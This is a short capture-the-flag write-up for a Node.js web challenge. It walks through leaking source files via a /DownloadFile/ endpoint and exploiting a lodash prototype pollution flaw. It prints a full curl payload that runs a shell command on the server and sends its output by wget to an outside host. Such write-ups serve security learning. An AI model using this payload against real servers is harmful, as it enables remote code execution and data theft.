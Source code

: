 # Elz3ama-CTF

By inspecting the HTTP responses, we figure out that the application is written in NodeJs.


![Application](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4f786f0c3099ae9aad02921d1aab97b9.png)

Next By inspecting the comments we see the below comment:

> <!-- Ziko: I could not push the code to the CI/CD pipeline, so NexusIQ was not executed on this project. Would you please check it for me ? the endpoint for getting files is: /DownloadFile/${file}

We can then figure out that there is a download function that takes the file name and download the file. knowing that the application is written in NodeJS, we can assume that the file 'package.json'.

by going to the following link:

> http://localhost:3000/DownloadFile/package.json

We can simply download the 'package.json' file and then read all of the dependencies.

On the line number: 7. we can spot that the main file used in the application is called 'index.js'

By making use of the same 'DownloadFile' link to download the source code of the application:

> http://localhost:3000/DownloadFile/index.js

![sourcecode](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4982e1c2fc989d1e2ed6017190ff8c9d.png)


By searching around you can find that the application is making use of a vulnerable version of 'lodash' library which is vulnerable to prototype pollution and leads to RCE due to the usage of 'template'.

> https://github.com/lodash/lodash/pull/4518

The full payload that can leads to RCE
> curl -D- localhost:3000/pipeline -H 'Content-Type: application/json' -d $'{"constructor": {"prototype": {"sourceURL": "\u2028\u2029global.process.mainModule.require(\'child_process\').exec(\'wget http://sherif.ninja:8080/$(ls)\')"}}}'

On the other hand on the webserver runnning by the player they can receive the output of the command 'ls'
on the http logs

![flag-file](http://snappyimages.nextwavesrl.netdna-cdn.com/img/98d108a92b9e49d3934f80a186abe1d4.png)

by making use of the 'DownloadFile' function, we can simply read the flag by the following link:

http://localhost:3000/DownloadFile/cfl4g_n7w_z3ama_file_downloaded
